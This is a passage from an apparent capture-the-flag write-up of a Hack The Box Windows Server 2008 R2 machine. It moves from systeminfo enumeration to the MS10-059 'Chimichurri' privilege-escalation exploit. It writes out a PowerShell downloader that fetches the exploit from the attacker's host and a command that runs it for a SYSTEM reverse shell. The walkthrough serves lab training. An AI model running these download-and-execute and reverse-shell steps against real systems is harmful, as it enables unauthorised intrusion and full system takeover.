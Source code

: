 ```
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```
From here we identify the box is running Server 2008 R2 and also has no patches installed according to the output under Hotfix(s). Great! Let's see what exploits we can find. From here you can either Google, use Exploit-DB, searchsploit, or for Windows I like to use something called [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) which makes life easy. I won't go into details on how to use it, check the github to see usage and what all you can feed into it.

After looking through the output I found a few privilege escalation exploits that could work. I settled on looking into MS10-059.

<https://www.exploit-db.com/exploits/14610/>

The Exploit-DB download only contained source files and no compiled exe. For whatever reason the exploit has an alias name of Chimichurri as referenced on Exploit-DB so I also searched by that and was able to find a compiled exe on Github [here](https://github.com/Re4son/Chimichurri). Note that normally you want compile things yourself but I wasn't able to do so myself without installing a ton of stuff so I decided to forgo it. Based on the source code it looks like the exploit will send us a reverse shell by feeding our IP address and desired port as parameters.

Once again we setup a python http server on Kali and to download to our target a simple powershell script will do the trick.

```
C:\ColdFusion8>echo $webclient = New-Object System.Net.WebClient >>wget.ps1

C:\ColdFusion8>echo $url = "http://10.10.14.10/chimichurri.exe" >>wget.ps1

C:\ColdFusion8>echo $file = "exploit.exe" >>wget.ps1

C:\ColdFusion8>echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\ColdFusion8>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

We verify the download, start a netcat listener, and run the exploit.

```
C:\ColdFusion8>exploit.exe 10.10.14.10 443

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```
